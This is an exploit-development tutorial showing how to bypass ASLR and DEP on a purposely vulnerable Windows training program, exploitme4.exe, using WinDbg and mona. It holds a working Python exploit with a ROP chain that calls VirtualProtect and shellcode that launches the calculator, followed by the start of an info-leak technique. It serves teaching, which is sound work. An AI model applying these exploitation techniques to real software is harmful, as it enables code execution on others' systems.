

Read the previous 3 articles if you haven’t already (I, II, III).
ASLR is an acronym for Address Space Layout Randomization. As the name suggests, the layout of the address space is randomized, i.e. the base addresses of the PEB, the TEB and all the modules which support ASLR change every time Windows is rebooted and the modules are loaded into memory. This makes it impossible for hackers to use hard coded addresses in their exploits. There are at least two ways to bypass ASLR:
- Find some structure or module whose base address is constant.
- Exploit an info leak to determine the base addresses of structures and modules.
In this section we’ll build an exploit for a little program called exploitme4.exe.
In VS 2013, we’ll disable stack cookies, but leave DEP on, by going to Project→properties, and modifying the configuration for Release as follows:
- Configuration Properties
- C/C++
- Code Generation
- Security Check: Disable Security Check (/GS-)
- Code Generation
- C/C++
Make sure that DEP is activated:
- Configuration Properties
- Linker
- Advanced
- Data Execution Prevention (DEP): Yes (/NXCOMPAT)
- Advanced
- Linker
Here’s the code of the program:
#include <cstdio>
#include <conio.h>
class Name {
char name[32];
int *ptr;
public:
Name() : ptr((int *)name) {}
char *getNameBuf() { return name; }
int readFromFile(const char *filePath) {
printf("Reading name from file...\n");
for (int i = 0; i < sizeof(name); ++i)
name[i] = 0;
FILE *f = fopen(filePath, "rb");
if (!f)
return 0;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
fread(name, 1, bytes, f);
fclose(f);
return 1;
}
virtual void printName() {
printf("Hi, %s!\n", name);
}
virtual void printNameInHex() {
for (int i = 0; i < sizeof(name) / 4; ++i)
printf(" 0x%08x", ptr[i]);
printf("]\n");
}
};
int main() {
Name name;
while (true) {
if (!name.readFromFile("c:\\name.dat"))
return -1;
name.printName();
name.printNameInHex();
printf("Do you want to read the name again? [y/n] ");
if (_getch() != 'y')
break;
printf("\n");
}
return 0;
}
This program is similar to the previous ones, but some logic has been moved to a class. Also, the program has a loop so that we can exploit the program multiple times without leaving the program.
The vulnerability is still the same: we can overflow the buffer name (inside the class Name), but this time we can exploit it in two different ways:
- The object name is on the stack so, by overflowing its property name, we can control ret eip of main() so that when main() returns our shellcode is called.
- By overflowing the property name of the object name, we can overwrite the property ptr which is used in the function printNameInHex(). By controlling ptr we can make printNameInHex() output 32 bytes of arbitrary memory.
First of all, let’s see if we need to use an info leak to bypass ASLR. Load exploitme4.exe in WinDbg (article), put a breakpoint on main() with
bp exploitme4!main
and hit F5 (go). Then let’s list the modules with mona (article):
0:000> !py mona modules
Hold on...
[+] Command used:
!py mona.py modules
---------- Mona command started on 2015-03-22 02:22:46 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
- Pointer access level : X
[+] Generating module info table, hang on...
- Processing modules
- Done. Let's rock 'n roll.
----------------------------------------------------------------------------------------------------------------------------------
Module info :
----------------------------------------------------------------------------------------------------------------------------------
Base | Top | Size | Rebase | SafeSEH | ASLR | NXCompat | OS Dll | Version, Modulename & Path
----------------------------------------------------------------------------------------------------------------------------------
0x77090000 | 0x7709a000 | 0x0000a000 | False | True | True | True | True | 6.1.7601.18768 [LPK.dll] (C:\Windows\syswow64\LPK.dll)
0x747c0000 | 0x7481a000 | 0x0005a000 | False | True | True | True | True | 8.0.0.4344 [guard32.dll] (C:\Windows\SysWOW64\guard32.dll)
0x76890000 | 0x7695c000 | 0x000cc000 | False | True | True | True | True | 6.1.7601.18731 [MSCTF.dll] (C:\Windows\syswow64\MSCTF.dll)
0x74e90000 | 0x74ed7000 | 0x00047000 | False | True | True | True | True | 6.1.7601.18409 [KERNELBASE.dll] (C:\Windows\syswow64\KERNELBASE.dll)
0x747b0000 | 0x747b9000 | 0x00009000 | False | True | True | True | True | 6.1.7600.16385 [VERSION.dll] (C:\Windows\SysWOW64\VERSION.dll)
0x747a0000 | 0x747a7000 | 0x00007000 | False | True | True | True | True | 6.1.7600.16385 [fltlib.dll] (C:\Windows\SysWOW64\fltlib.dll)
0x76ad0000 | 0x76b6d000 | 0x0009d000 | False | True | True | True | True | 1.626.7601.18454 [USP10.dll] (C:\Windows\syswow64\USP10.dll)
0x01390000 | 0x01396000 | 0x00006000 | False | True | True | True | False | -1.0- [exploitme4.exe] (exploitme4.exe)
0x74f90000 | 0x75020000 | 0x00090000 | False | True | True | True | True | 6.1.7601.18577 [GDI32.dll] (C:\Windows\syswow64\GDI32.dll)
0x76320000 | 0x76430000 | 0x00110000 | False | True | True | True | True | 6.1.7601.18409 [kernel32.dll] (C:\Windows\syswow64\kernel32.dll)
0x755e0000 | 0x7568c000 | 0x000ac000 | False | True | True | True | True | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\syswow64\msvcrt.dll)
0x74a40000 | 0x74a4c000 | 0x0000c000 | False | True | True | True | True | 6.1.7600.16385 [CRYPTBASE.dll] (C:\Windows\syswow64\CRYPTBASE.dll)
0x74a50000 | 0x74ab0000 | 0x00060000 | False | True | True | True | True | 6.1.7601.18779 [SspiCli.dll] (C:\Windows\syswow64\SspiCli.dll)
0x770c0000 | 0x77240000 | 0x00180000 | False | True | True | True | True | 6.1.7601.18247 [ntdll.dll] (ntdll.dll)
0x76bc0000 | 0x76c60000 | 0x000a0000 | False | True | True | True | True | 6.1.7601.18247 [ADVAPI32.dll] (C:\Windows\syswow64\ADVAPI32.dll)
0x764c0000 | 0x765b0000 | 0x000f0000 | False | True | True | True | True | 6.1.7601.18532 [RPCRT4.dll] (C:\Windows\syswow64\RPCRT4.dll)
0x6c9f0000 | 0x6cade000 | 0x000ee000 | False | True | True | True | True | 12.0.21005.1 [MSVCR120.dll] (C:\Windows\SysWOW64\MSVCR120.dll)
0x755a0000 | 0x755b9000 | 0x00019000 | False | True | True | True | True | 6.1.7600.16385 [sechost.dll] (C:\Windows\SysWOW64\sechost.dll)
0x76980000 | 0x76985000 | 0x00005000 | False | True | True | True | True | 6.1.7600.16385 [PSAPI.DLL] (C:\Windows\syswow64\PSAPI.DLL)
0x76790000 | 0x76890000 | 0x00100000 | False | True | True | True | True | 6.1.7601.17514 [USER32.dll] (C:\Windows\syswow64\USER32.dll)
0x74d00000 | 0x74d60000 | 0x00060000 | False | True | True | True | True | 6.1.7601.17514 [IMM32.DLL] (C:\Windows\SysWOW64\IMM32.DLL)
----------------------------------------------------------------------------------------------------------------------------------
[+] This mona.py action took 0:00:00.110000As we can see, all the modules support ASLR, so we’ll need to rely on the info leak we discovered in exploitme4.exe.
Through the info leak we’ll discover the base addresses of kernel32.dll, ntdll.dll and msvcr120.dll. To do this, we first need to collect some information about the layout of exploitme4.exe and the three libraries we’re interested in.
.next section
First of all, let’s determine the RVA (i.e. offset relative to the base address) of the .text (i.e. code) section of exploitme4.exe:
0:000> !dh -s exploitme4
SECTION HEADER #1
.text name
AAC virtual size
1000 virtual address <---------------------------
C00 size of raw data
400 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
60000020 flags
Code
(no align specified)
Execute Read
SECTION HEADER #2
.rdata name
79C virtual size
2000 virtual address
800 size of raw data
1000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
40000040 flags
Initialized Data
(no align specified)
Read Only
<snip>As we can see, the RVA is 1000h. This information will come in handy soon.
Virtual Functions
The class Name has two virtual functions: printName() and printNameInHex(). This means that Name has a virtual function table used to call the two virtual functions. Let’s see how this works.
In OOP (Object-Oriented Programming), classes can be specialized, i.e. a class can derive from another class. Consider the following example:
#define _USE_MATH_DEFINES
#include <cmath>
#include <cstdio>
class Figure {
public:
virtual double getArea() = 0;
};
class Rectangle : public Figure {
double base, height;
public:
Rectangle(double base, double height) : base(base), height(height) {}
virtual double getArea() {
return base * height;
}
};
class Circle : public Figure {
double radius;
public:
Circle(double radius) : radius(radius) {}
virtual double getArea() {
return radius * M_PI;
}
};
int main() {
Figure *figures[] = { new Rectangle(10, 5), new Circle(1.5), new Rectangle(5, 10) };
for (Figure *f : figures)
printf("area: %lf\n", f->getArea());
return 0;
}
The classes Rectangle and Circle inherit from the class Figure, i.e. a Rectangle is a Figure and a Circle is a Figure. This means that we can pass a pointer to a Rectangle or a Circle where a pointer to a Figure is expected. Note that Figure has no implementation for the method getArea(), but Rectangle and Circle provide their own specialized implementations for that function.
Have a look at the main() function. First three Figures (two Rectangles and a Circle) are allocated and their pointers are put into the array figures. Then, for each pointer f of type Figure *, f->getArea() is called. This last expression calls the right implementation of getArea() depending on whether the figure is a Rectangle or a Circle.
How is this implemented in assembly? Let’s look at the for loop:
for (Figure *f : figures)
010910AD 8D 74 24 30 lea esi,[esp+30h]
010910B1 89 44 24 38 mov dword ptr [esp+38h],eax
010910B5 BF 03 00 00 00 mov edi,3
010910BA 8D 9B 00 00 00 00 lea ebx,[ebx]
010910C0 8B 0E mov ecx,dword ptr [esi]
printf("area: %lf\n", f->getArea());
010910C2 8B 01 mov eax,dword ptr [ecx]
010910C4 8B 00 mov eax,dword ptr [eax]
010910C6 FF D0 call eax
010910C8 83 EC 08 sub esp,8
010910CB DD 1C 24 fstp qword ptr [esp]
010910CE 68 18 21 09 01 push 1092118h
010910D3 FF D3 call ebx
010910D5 83 C4 0C add esp,0Ch
010910D8 8D 76 04 lea esi,[esi+4]
010910DB 4F dec edi
010910DC 75 E2 jne main+0A0h (010910C0h)
return 0;
}The interesting lines are the following:
010910C0 8B 0E mov ecx,dword ptr [esi] // ecx = ptr to the object
printf("area: %lf\n", f->getArea());
010910C2 8B 01 mov eax,dword ptr [ecx] // eax = ptr to the VFTable
010910C4 8B 00 mov eax,dword ptr [eax] // eax = ptr to the getArea() implementation
010910C6 FF D0 call eaxEach object starts with a pointer to the associated VFTable. All the objects of type Rectangle point to the same VFTable which contains a pointer to the implementation of getArea() associated with Rectangle. The objects of type Circle point to another VFTable which contains a pointer to their own implementation of getArea(). With this additional level of indirection, the same assembly code calls the right implementation of getArea() for each object depending on its type, i.e. on its VFTable.
A little picture might help to clarify this further:

Let’s get back to exploitme4.exe. Load it in WinDbg, put a breakpoint on main() and hit F10 (step) until you’re inside the while loop (look at the source code). This makes sure that the object name has been created and initialized.
{kind=link}
The layout of the object name is the following:
|VFTptr | name | ptr | <DWORD> <-- 32 bytes --> <DWORD>
As we said before, the Virtual Function Table pointer is at offset 0. Let’s read that pointer:
0:000> dd name
0033f8b8 011421a0 0033f8e8 01141290 0114305c
0033f8c8 01143060 01143064 00000000 0114306c
0033f8d8 6ca0cc79 0033f8bc 00000001 0033f924
0033f8e8 011413a2 00000001 00574fb8 00566f20
0033f8f8 155a341e 00000000 00000000 7efde000
0033f908 00000000 0033f8f8 00000022 0033f960
0033f918 011418f9 147dee12 00000000 0033f930
0033f928 7633338a 7efde000 0033f970 770f9f72The VFTptr is 0x011421a0. Now, let’s view the contents of the VFTable:
0:000> dd 011421a0 011421a0 01141000 01141020 00000048 00000000 011421b0 00000000 00000000 00000000 00000000 011421c0 00000000 00000000 00000000 00000000 011421d0 00000000 00000000 00000000 00000000 011421e0 00000000 01143018 01142310 00000001 011421f0 53445352 9c20999b 431fa37a cc3e54bc 01142200 da01c06e 00000010 755c3a63 73726573 01142210 75696b5c 5c6d6e68 75636f64 746e656d
We have one pointer for printName() (0x01141000) and another for printNameInHex() (0x01141020). Let’s compute the RVA of the pointer to printName():
0:000> ? 01141000-exploitme4 Evaluate expression: 4096 = 00001000
IAT
The IAT (Import Address Table) of a file PE is a table which the OS loader fills in with the addresses of the functions imported from other modules during the dynamic linking phase. When a program wants to call an imported function, it uses a CALL with the following form:
CALL dword ptr ds:[location_in_IAT]
By inspecting the IAT of exploitme4.exe we can learn the base addresses of the modules the functions are imported from.
First let’s find out where the IAT is located:
0:000> !dh -f exploitme4
File Type: EXECUTABLE IMAGE
FILE HEADER VALUES
14C machine (i386)
5 number of sections
550DA390 time date stamp Sat Mar 21 18:00:00 2015
0 file pointer to symbol table
0 number of symbols
E0 size of optional header
102 characteristics
Executable
32 bit word machine
OPTIONAL HEADER VALUES
10B magic #
12.00 linker version
C00 size of code
1000 size of initialized data
0 size of uninitialized data
140A address of entry point
1000 base of code
----- new -----
00ac0000 image base
1000 section alignment
200 file alignment
3 subsystem (Windows CUI)
6.00 operating system version
0.00 image version
6.00 subsystem version
6000 size of image
400 size of headers
0 checksum
00100000 size of stack reserve
00001000 size of stack commit
00100000 size of heap reserve
00001000 size of heap commit
8140 DLL characteristics
Dynamic base
NX compatible
Terminal server aware
0 [ 0] address [size] of Export Directory
23C4 [ 3C] address [size] of Import Directory
4000 [ 1E0] address [size] of Resource Directory
0 [ 0] address [size] of Exception Directory
0 [ 0] address [size] of Security Directory
5000 [ 1B4] address [size] of Base Relocation Directory
20E0 [ 38] address [size] of Debug Directory
0 [ 0] address [size] of Description Directory
0 [ 0] address [size] of Special Directory
0 [ 0] address [size] of Thread Storage Directory
21A8 [ 40] address [size] of Load Configuration Directory
0 [ 0] address [size] of Bound Import Directory
2000 [ B8] address [size] of Import Address Table Directory <-----------------------
0 [ 0] address [size] of Delay Import Directory
0 [ 0] address [size] of COR20 Header Directory
0 [ 0] address [size] of Reserved DirectoryThe RVA of the IAT is 0x2000 and its size is 0xB8 bytes. Now we can display the contents of the IAT by using the command dps which displays the addresses with the associated symbols:
0:000> dps exploitme4+2000 LB8/4 00ac2000 76334a25 kernel32!IsDebuggerPresentStub <---------------------- kernel32 00ac2004 770f9dd5 ntdll!RtlDecodePointer <---------------------- ntdll 00ac2008 763334c9 kernel32!GetSystemTimeAsFileTimeStub msvcr120 00ac200c 76331420 kernel32!GetCurrentThreadIdStub | 00ac2010 763311f8 kernel32!GetCurrentProcessIdStub | 00ac2014 763316f1 kernel32!QueryPerformanceCounterStub | 00ac2018 7710107b ntdll!RtlEncodePointer | 00ac201c 763351fd kernel32!IsProcessorFeaturePresent | 00ac2020 00000000 | 00ac2024 6ca94ced MSVCR120!_XcptFilter [f:\dd\vctools\crt\crtw32\misc\winxfltr.c @ 195] <---+ 00ac2028 6ca6bb8d MSVCR120!_amsg_exit [f:\dd\vctools\crt\crtw32\startup\crt0dat.c @ 485] 00ac202c 6ca1e25f MSVCR120!__getmainargs [f:\dd\vctools\crt\crtw32\dllstuff\crtlib.c @ 142] 00ac2030 6ca1c7ce MSVCR120!__set_app_type [f:\dd\vctools\crt\crtw32\misc\errmode.c @ 94] 00ac2034 6ca24293 MSVCR120!exit [f:\dd\vctools\crt\crtw32\startup\crt0dat.c @ 416] 00ac2038 6ca6bbb8 MSVCR120!_exit [f:\dd\vctools\crt\crtw32\startup\crt0dat.c @ 432] 00ac203c 6ca24104 MSVCR120!_cexit [f:\dd\vctools\crt\crtw32\startup\crt0dat.c @ 447] 00ac2040 6ca955eb MSVCR120!_configthreadlocale [f:\dd\vctools\crt\crtw32\misc\wsetloca.c @ 141] 00ac2044 6ca6b9e9 MSVCR120!__setusermatherr [f:\dd\vctools\crt\fpw32\tran\matherr.c @ 41] 00ac2048 6ca0cc86 MSVCR120!_initterm_e [f:\dd\vctools\crt\crtw32\startup\crt0dat.c @ 990] 00ac204c 6ca0cc50 MSVCR120!_initterm [f:\dd\vctools\crt\crtw32\startup\crt0dat.c @ 941] 00ac2050 6cacf62c MSVCR120!__initenv 00ac2054 6cacf740 MSVCR120!_fmode 00ac2058 6c9fec80 MSVCR120!type_info::~type_info [f:\dd\vctools\crt\crtw32\eh\typinfo.cpp @ 32] 00ac205c 6ca8dc2c MSVCR120!terminate [f:\dd\vctools\crt\crtw32\eh\hooks.cpp @ 66] 00ac2060 6ca1c7db MSVCR120!__crtSetUnhandledExceptionFilter [f:\dd\vctools\crt\crtw32\misc\winapisupp.c @ 194] 00ac2064 6c9fedd7 MSVCR120!_lock [f:\dd\vctools\crt\crtw32\startup\mlock.c @ 325] 00ac2068 6c9fedfc MSVCR120!_unlock [f:\dd\vctools\crt\crtw32\startup\mlock.c @ 363] 00ac206c 6ca01208 MSVCR120!_calloc_crt [f:\dd\vctools\crt\crtw32\heap\crtheap.c @ 55] 00ac2070 6ca0ca46 MSVCR120!__dllonexit [f:\dd\vctools\crt\crtw32\misc\onexit.c @ 263] 00ac2074 6ca1be6b MSVCR120!_onexit [f:\dd\vctools\crt\crtw32\misc\onexit.c @ 81] 00ac2078 6ca9469b MSVCR120!_invoke_watson [f:\dd\vctools\crt\crtw32\misc\invarg.c @ 121] 00ac207c 6ca1c9b5 MSVCR120!_controlfp_s [f:\dd\vctools\crt\fpw32\tran\contrlfp.c @ 36] 00ac2080 6ca02aaa MSVCR120!_except_handler4_common [f:\dd\vctools\crt\crtw32\misc\i386\chandler4.c @ 260] 00ac2084 6ca96bb8 MSVCR120!_crt_debugger_hook [f:\dd\vctools\crt\crtw32\misc\dbghook.c @ 57] 00ac2088 6ca9480c MSVCR120!__crtUnhandledException [f:\dd\vctools\crt\crtw32\misc\winapisupp.c @ 253] 00ac208c 6ca947f7 MSVCR120!__crtTerminateProcess [f:\dd\vctools\crt\crtw32\misc\winapisupp.c @ 221] 00ac2090 6c9fed74 MSVCR120!operator delete [f:\dd\vctools\crt\crtw32\heap\delete.cpp @ 20] 00ac2094 6ca9215c MSVCR120!_getch [f:\dd\vctools\crt\crtw32\lowio\getch.c @ 237] 00ac2098 6ca04f9e MSVCR120!fclose [f:\dd\vctools\crt\crtw32\stdio\fclose.c @ 43] 00ac209c 6ca1fdbc MSVCR120!fseek [f:\dd\vctools\crt\crtw32\stdio\fseek.c @ 96] 00ac20a0 6ca1f9de MSVCR120!ftell [f:\dd\vctools\crt\crtw32\stdio\ftell.c @ 45] 00ac20a4 6ca05a8c MSVCR120!fread [f:\dd\vctools\crt\crtw32\stdio\fread.c @ 301] 00ac20a8 6ca71dc4 MSVCR120!fopen [f:\dd\vctools\crt\crtw32\stdio\fopen.c @ 124] 00ac20ac 6cacf638 MSVCR120!_commode 00ac20b0 6ca72fd9 MSVCR120!printf [f:\dd\vctools\crt\crtw32\stdio\printf.c @ 49] 00ac20b4 00000000
We just need three addresses, one for each module. Now let’s compute the RVAs of the three addresses:
0:000> ? kernel32!IsDebuggerPresentStub-kernel32 Evaluate expression: 84517 = 00014a25 0:000> ? ntdll!RtlDecodePointer-ntdll Evaluate expression: 237013 = 00039dd5 0:000> ? MSVCR120!_XcptFilter-msvcr120 Evaluate expression: 675053 = 000a4ced
So we know the following:
@exploitme4 + 00002000 kernel32 + 00014a25 @exploitme4 + 00002004 ntdll + 00039dd5 @exploitme4 + 00002024 msvcr120 + 000a4ced
The first line means that at address exploitme4 + 00002000 there is kernel32 + 00014a25. Even if exploitme4 and kernel32 (which are the base addresses) change, the RVAs remain constant, therefore the table is always correct. This information will be crucial to determine the base addresses of kernel32.dll, ntdll.dll and msvcr120.dll during the exploitation.
Popping up the calculator
As we’ve already seen, the layout of the object name is the following:
|VFTptr | name | ptr | <DWORD> <-- 32 bytes --> <DWORD>
This means that ptr is overwritten with the dword at offset 32 in the file name.dat. For now we’ll ignore ptr because we want to take control of EIP.
First of all, notice that the object name is allocated on the stack, so it is indeed possible to overwrite ret eip by overflowing the property name.
Since we must overwrite ptr on the way to take control of EIP, we must choose the address of a readable location for ptr or exploitme4 will crash when it tries to use ptr. We can overwrite ptr with the base address of kernel32.dll.
Fire up IDLE and run the following Python script:
with open(r'c:\name.dat', 'wb') as f:
readable = struct.pack('<I', 0x76320000)
name = 'a'*32 + readable + 'b'*100
f.write(name)
Load exploitme4 in WinDbg, hit F5 (go) and in exploitme4‘s console enter ‘n‘ to exit from main() and trigger the exception:
(ff4.2234): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=6ca92195 edx=0020e0e8 esi=00000001 edi=00000000 eip=62626262 esp=001cf768 ebp=62626262 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 62626262 ?? ???
We can see that EIP was overwritten by 4 of our “b“s. Let’s compute the exact offset of the dword that controls EIP by using a special pattern:
0:000> !py mona pattern_create 100
Hold on...
[+] Command used:
!py mona.py pattern_create 100
Creating cyclic pattern of 100 bytes
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
[+] Preparing output file 'pattern.txt'
- (Re)setting logfile d:\WinDbg_logs\exploitme4\pattern.txt
Note: don't copy this pattern from the log window, it might be truncated !
It's better to open d:\WinDbg_logs\exploitme4\pattern.txt and copy the pattern from the file
[+] This mona.py action took 0:00:00.030000Here’s the updated script:
with open(r'c:\name.dat', 'wb') as f:
readable = struct.pack('<I', 0x76320000)
pattern = ('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6'+
'Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A')
name = 'a'*32 + readable + pattern
f.write(name)
Repeat the process in WinDbg to generate another exception:
(f3c.23b4): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=6ca92195 edx=001edf38 esi=00000001 edi=00000000 eip=33614132 esp=0039f9ec ebp=61413161 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 33614132 ?? ???
Let’s find out the offset of 0x33614132:
0:000> !py mona pattern_offset 33614132 Hold on... [+] Command used: !py mona.py pattern_offset 33614132 Looking for 2Aa3 in pattern of 500000 bytes - Pattern 2Aa3 (0x33614132) found in cyclic pattern at position 8 Looking for 2Aa3 in pattern of 500000 bytes Looking for 3aA2 in pattern of 500000 bytes - Pattern 3aA2 not found in cyclic pattern (uppercase) Looking for 2Aa3 in pattern of 500000 bytes Looking for 3aA2 in pattern of 500000 bytes - Pattern 3aA2 not found in cyclic pattern (lowercase) [+] This mona.py action took 0:00:00.180000
Now that we know that the offset is 8, we can reuse the script we used before to defeat DEP. We just need to make some minor modification and to remember to update the base addresses for kernel32.dll, ntdll.dll and msvcr120.dll.
Here’s the full script:
import struct
# The signature of VirtualProtect is the following:
# BOOL WINAPI VirtualProtect(
# _In_ LPVOID lpAddress,
# _In_ SIZE_T dwSize,
# _In_ DWORD flNewProtect,
# _Out_ PDWORD lpflOldProtect
# );
# After PUSHAD is executed, the stack looks like this:
# .
# .
# .
# EDI (ptr to ROP NOP (RETN))
# ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect))
# EBP (ptr to POP (skips EAX on the stack))
# ESP (lpAddress (automatic))
# EBX (dwSize)
# EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE))
# ECX (lpOldProtect (ptr to writeable address))
# EAX (address of ptr to VirtualProtect)
# lpAddress:
# ptr to "call esp"
# <shellcode>
msvcr120 = 0x6c9f0000
kernel32 = 0x76320000
ntdll = 0x770c0000
def create_rop_chain():
for_edx = 0xffffffff
# rop chain generated with mona.py - www.corelan.be (and modified by me).
rop_gadgets = [
msvcr120 + 0xbf868, # POP EBP # RETN [MSVCR120.dll]
msvcr120 + 0xbf868, # skip 4 bytes [MSVCR120.dll]
# ebx = 0x400 (dwSize)
msvcr120 + 0x1c658, # POP EBX # RETN [MSVCR120.dll]
0x11110511,
msvcr120 + 0xdb6c4, # POP ECX # RETN [MSVCR120.dll]
0xeeeefeef,
msvcr120 + 0x46398, # ADD EBX,ECX # SUB AL,24 # POP EDX # RETN [MSVCR120.dll]
for_edx,
# edx = 0x40 (NewProtect = PAGE_EXECUTE_READWRITE)
msvcr120 + 0xbedae, # POP EDX # RETN [MSVCR120.dll]
0x01010141,
ntdll + 0x75b23, # POP EDI # RETN [ntdll.dll]
0xfefefeff,
msvcr120 + 0x39b41, # ADD EDX,EDI # RETN [MSVCR120.dll]
msvcr120 + 0xdb6c4, # POP ECX # RETN [MSVCR120.dll]
kernel32 + 0xe0fce, # &Writable location [kernel32.dll]
ntdll + 0x75b23, # POP EDI # RETN [ntdll.dll]
msvcr120 + 0x68e3d, # RETN (ROP NOP) [MSVCR120.dll]
msvcr120 + 0x6e150, # POP ESI # RETN [MSVCR120.dll]
ntdll + 0x2e8ae, # JMP [EAX] [ntdll.dll]
msvcr120 + 0x50464, # POP EAX # RETN [MSVCR120.dll]
msvcr120 + 0xe51a4, # address of ptr to &VirtualProtect() [IAT MSVCR120.dll]
msvcr120 + 0xbb7f9, # PUSHAD # RETN [MSVCR120.dll]
kernel32 + 0x37133, # ptr to 'call esp' [kernel32.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
readable = struct.pack('<I', kernel32)
ret_eip = struct.pack('<I', kernel32 + 0xb7805) # RETN
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
name = 'a'*32 + readable + 'a'*8 + ret_eip + create_rop_chain() + shellcode
f.write(name)
write_file(r'c:\name.dat')
Run the script and then run exploitme4.exe and exit from it by typing “n” at the prompt. If you did everything correctly, the calculator should pop up. We did it!
Exploiting the info leak
Now let’s assume we don’t know the base addresses of kernel32.dll, ntdll.dll and msvcr120.dll and that we want to determine them by relying on exploitme4.exe alone (so that we could do that even from a remote PC if exploitme4.exe was offered as a remote service).
From the source code of exploitme4, we can see that ptr initially points to the beginning of the array name:
class Name {
char name[32];
int *ptr;
public:
Name() : ptr((int *)name) {}
<snip>
};
We want to read the pointer to the VFTable, but even if we can control ptr and read wherever we want, we don’t know the address of name. A solution is that of performing a partial overwrite. We’ll just overwrite the least significant byte of ptr:
def write_file(lsb):
with open(r'c:\name.dat', 'wb') as f:
name = 'a'*32 + chr(lsb)
f.write(name)
write_file(0x80)
If the initial value of ptr was 0xYYYYYYYY, after the overwrite, ptr is equal to 0xYYYYYY80. Now let’s run exploitme4.exe (directly, without WinDbg):
Reading name from file... Hi, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaÇ°&! 0x01142148 0x00000000 0x6cace060 0x0000000b 0x0026f87c 0x00000021 0x0026f924 0x 6ca0a0d5] Do you want to read the name again? [y/n]
As we can see, the first 8 dwords starting from the address indicated by ptr are
0x01142148 0x00000000 0x6cace060 0x0000000b 0x0026f87c 0x00000021 0x0026f924 0x6ca0a0d5
